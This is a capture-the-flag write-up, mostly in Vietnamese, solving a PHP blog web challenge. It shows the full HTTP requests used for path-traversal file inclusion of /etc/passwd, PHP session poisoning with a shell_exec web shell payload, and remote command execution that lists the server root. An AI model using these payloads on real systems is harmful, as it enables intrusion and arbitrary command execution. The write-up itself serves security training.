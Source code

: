 **Description**

```
This guy wrote his own blog in PHP instead of, I dunno, literally anything else. Can you teach him a lesson?

The server is running php 7.4.26. If you're running locally, use Docker php@sha256:920a88344203adf78471ca898773f0e0ac171fb4a3be4ba2d4f9585163aaf038

source.zip

Note: You won't be able to read the flag directly. If the flag appears to be empty, try a different strategy. 
```

[file]()

Vulnerability identification LFI

Sau vài lần thử và mình thấy đường dẫn tệp có thể được kiểm soát bởi người dùng, kiểm tra LFI bằng cách cố gắng fetch /etc/passwd và lặp lại nó trong phản hồi http

```
GET /post.php?post=../../../../etc/passwd HTTP/1.1
Host: host.cg21.metaproblems.com:4130
```

```
HTTP/1.1 200 OK
...
<div class="post">root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flag:x:999:999::/home/flag:/usr/sbin/nologin
</div>
```

=> LFI triggered.

**PHP session poisoning**

Kiểm tra cookie và nhận được `PHPSESSID`.  Từ [https://github.com/w181496/Web-CTF-Cheatsheet#php-session ](https://github.com/w181496/Web-CTF-Cheatsheet#php-session). Để kích hoạt php poisoning, mình cần tìm nơi file session tồn tại. Sau một vài tìm kiếm, mình nhận thấy session của mỗi người dùng được lưu trữ tại `/tmp/sess_<PHPSESSID>` . 

```
GET /post.php?post=../../../../tmp/sess_kdlbh9k9knfm8n7jgdki0ho64h HTTP/1.1
```

```
HTTP/1.1 200 OK
...

<h1>
../../../../tmp/sess_kdlbh9k9knfm8n7jgdki0ho64h
</h1><hr>
<div class="post">theme|s:5:"light";
</div>    
<a href="/">home</a>
```

Đọc qua mã nguồn, từ truy vấn đến theme chúng ta có thể control và thực hiện shellcode`/set.php?theme=<php_rce_code>`  . Đặt thành `/set.php?theme=<?php echo shell_exec($_GET['cmd']); ?>`. 



**RCE**

Đặt tham số GET `cmd` có được RCE. Truy cập session file để thực thi command. Việc còn lại là đoán xem file chứa flag ở đâu thôi. 

```
GET /post.php?post=../../../../tmp/sess_h8iui7plbum2qbu76iei3fa75q&cmd=ls+../../../../ HTTP/1.1
```

Response

```
HTTP/1.1 200 OK
...

h1>
../../../../tmp/sess_h8iui7plbum2qbu76iei3fa75q
</h1><hr><div class="post">
theme|s:38:"bin
boot
dev
etc
flag
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
";
</div>
```

Khỉ thật, tại thời điểm mình thực hiện write-up thì k biết ông nào xóa mất file chứa flag rồi =)))) 
